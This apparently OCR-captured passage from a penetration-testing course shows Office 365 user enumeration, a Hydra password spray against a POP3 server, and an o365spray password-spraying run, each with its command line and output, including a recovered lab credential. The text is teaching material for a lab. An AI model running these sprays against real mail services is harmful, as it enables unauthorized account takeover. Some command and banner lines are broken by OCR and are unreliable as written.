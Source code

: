msplaintext.xyz
[2022-04-13 09:48:04,062] INFO : [VALID] The following domain is using
O365: msplaintext.xyz
[2022-04-13 09:48:04,064] INFO : Running user enumeration against 67
potential users
[2022-04-13 09:48:08,244] INFO : [VALID] [email protected]
[2022-04-13 09:48:10,415] INFO : [VALID] [email protected]
[2022-04-13 09:48:10,415] INFO :
[ * ] Valid accounts can be found at:
'/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
[ * ] All enumerated accounts can be found at:
'/opt/o365spray/enum/enum_tested_accounts.2204130948.txt'
[2022-04-13 09:48:10,416] INFO : Valid Accounts: 2

Password Attacks
We can use Hydra to perform a password spray or brute force against email services such
as SMTP , POP3 , or IMAP4 . First, we need to get a username list and a password list and
specify which service we want to attack. Let us see an example for POP3 .
Hydra - Password Attackhydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use
in military or secret service organizations or for illegal purposes (this
is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-13
11:37:46
[INFO] several providers have implemented cracking protection, check with
a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 67 login tries
(l:67/p:1), ~5 tries per task
[DATA] attacking pop3://10.10.110.20:110/
[110][pop3] host: 10.129.42.197
login: john
password: Company01!
1 of 1 target successfully completed, 1 valid password found
If cloud services support SMTP, POP3, or IMAP4 protocols, we may be able to attempt to
perform password spray using tools like Hydra , but these tools are usually blocked. We can
instead try to use custom tools such as o365spray or MailSniper for Microsoft Office 365 or
CredKing for Gmail or Okta. Keep in mind that these tools need to be up-to-date because if
the service provider changes something (which happens often), the tools may not work
anymore. This is a perfect example of why we must understand what our tools are doing and
have the know-how to modify them if they do not work properly for some reason.
O365 Spray - Password Spraying
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 -
-lockout 1 --domain msplaintext.xyz
*** O365 Spray ***
>----------------------------------------<
> version:2.0.4
> domain:msplaintext.xyz
> spray:True
> password:March2022!
> userfile:usersfound.txt
> count
> lockout:
:1 passwords/spray
1.0 minutes
> spray_module:oauth2
> rate:10 threads
> safe:10 locked accounts
> timeout:25 seconds
> start:2022-04-14 12:26:31>----------------------------------------<
[2022-04-14 12:26:31,757] INFO : Running O365 validation for:
msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using
O365: msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
